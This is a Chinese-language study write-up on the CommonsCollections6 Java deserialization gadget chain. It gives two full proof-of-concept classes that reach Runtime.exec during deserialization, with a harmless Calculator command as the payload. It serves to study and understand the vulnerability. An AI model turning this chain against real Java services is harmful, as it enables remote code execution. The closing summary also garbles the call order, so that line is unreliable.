


# 环境搭建
> 1. `JDK`版本：JDK1.8u66(暂无限制)
> 2. `Commons-Collections`版本：3.1

> 利用`maven`来进行搭建，先创建一个`Maven`项目，不用选择任何`Maven`模板，`pom.xml`中内容如下，之后选择右侧的更新，让其自动导入包即可

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>

</project>
```

# 前置知识
## HashSet
> `HashSet`是一个无序的、不允许有重复元素的集合，本质上就是由`HashMap`实现的，跟`HashMap`一样，都是一个存放链表的数组，`HashSet`中的元素都存放在`HashMap`的`key`上面，而`value`中的值都是统一的一个`private static final Object PRESENT = new Object();`，在`HashSet`的`readObject`方法中会调用其内部`HashMap`的`put`方法，将值放在`key`上



# CommonsCollections6 分析
> 在`CommonsCollections5`中，通过对`TiedMapEntry#toString`方法的调用，触发了`TiedMapEntry#getValue`，继而触发了`LazyMap#get`来完成后半段的调用；而在`CommonsCollections6`中则是通过`TiedMapEntry#hashCode`触发对`TiedMapEntry#getValue`的调用，但是需要找到一个触发`hashcode()`方法的点，因此利用前置知识中的`HashSet()`方法来触发`hashCode()`方法

> 在`HashSet#readObject`方法中，跟进`put()`方法，进入`java.util.HashMap`中调用`put()`方法，接着调用`hash()`方法，进而调用`key.hashCode()`，这里只需要让`key`为`TiedMapEntry`对象即可


> 但是在实际利用是需要解决一个问题，那就是在调用`put`方法的时候就触发命令执行的问题，P牛对此的解决方法是`outerMap.remove("h3rmesk1t");`，成功在反序列化的时候也触发了命令执行

```java
package CommonsCollections6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 4:38 下午
 */
public class FakeDemo {

    public static void fakeDemo() throws IOException, ClassNotFoundException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "d1no");
        map.remove("h3rmesk1t");

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(expMap);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            fakeDemo();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


## POC
> 为了解决上述出现的问题，在构造`LazyMap`的时候先构造一个`fakeTransformers`对象，等最后⽣成`Payload`的时候，再利用反射将真正的`transformers`替换进去

```java
package CommonsCollections6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 4:29 下午
 */
public class CommonsCollections6Gadget1 {

    public static void CC6() throws IllegalAccessException, NoSuchFieldException {
        Transformer[] fakeTransformers = new Transformer[] {};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "d1no");
        map.remove("h3rmesk1t");
        Field field = ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);
        //map.clear();

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(expMap);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC6();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



# 调用链

```java
HashSet.readObject()/HashMap.readObject()
    HashMap.put()
        HashMap.hash()
            TiedMapEntry.hashCode()
                LazyMap.get()
                    ChainedTransformer.transform()
                        InvokerTransformer.transform()
```

# 总结
> 反序列化调用`TiedMapEntry`的`toString`方法，间接调用`LazyMap`的`hashCode`方法，触发了后续的`Transformer`恶意执行链